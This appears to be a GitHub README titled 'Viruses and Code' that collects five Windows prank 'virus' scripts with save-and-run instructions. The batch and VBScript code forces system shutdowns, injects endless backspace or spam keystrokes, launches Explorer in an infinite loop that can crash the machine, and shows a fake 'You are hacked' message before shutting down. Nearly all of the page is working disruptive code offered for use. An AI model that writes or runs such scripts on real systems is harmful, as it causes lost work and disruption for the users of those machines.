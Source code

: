 <h1 align=center><b><i>Viruses and Code</i></b></h1>
----

### Interesting Links

- [Virus 1 to 4](https://www.youtube.com/watch?v=dbjYJ6rW7X8&feature=emb_logo)

- [Virus 5](https://www.youtube.com/watch?v=IHGSdvKY0aM)


### Virus

- Shutdown your window

```
@echo off
shutdown -c "ERROR!" -s
```

To use this you need to open this code in notepad and save it by .bat which means batch file
and then after some time click on open file by going to its file location

- Backspace virus

```
MsgBox "Let's go back a few steps"
Set wshShell =wscript.CreateObject("WScript.Shell")
do
wscript.sleep 100
wshshell.sendkeys "{bs}"
loop
```

To use this you need to open the code in notepad and than save it by .vbs which is visual basic developed by microsoft

To stop this go to taks manager and close microsoft widows base file

- Keyboard Hack

```
Set wshShell = wscript.CreateObject("WScript.Shell")
do
wscript.sleep 100
wshshell.sendkeys "You are doomed."
loop

```

To use this you need to open the code in notepad and than save it by .vbs which is visual basic developed by microsoft


To stop this go to taks manager and close microsoft widows base file


- System Crash

```
@echo off
:repeat
Explorer
call loop.bat 
Goto repeat
```

To use this you need to open this code in notepad and save it by .bat which means batch file
To stop this go to taks manager and close microsoft widows base file


- LoveYou Virus

```
@echo off
color 57
echo Hey, do you love me (only answer in yes or no)
set /p love=
if %love%==yes goto love
if %love%==no goto hate
:love
echo I love you too...
echo Meet you soon :)
pause 
exit
:hate
echo But I love you....hehehehehe
echo You are hacked...
echo Your PC will crash in 10 seconds
timeout 10
shutdown -s -t 100
```
To use this you need to open this code in notepad and save it by .bat which means batch file
Your system will got shutdown if selected no

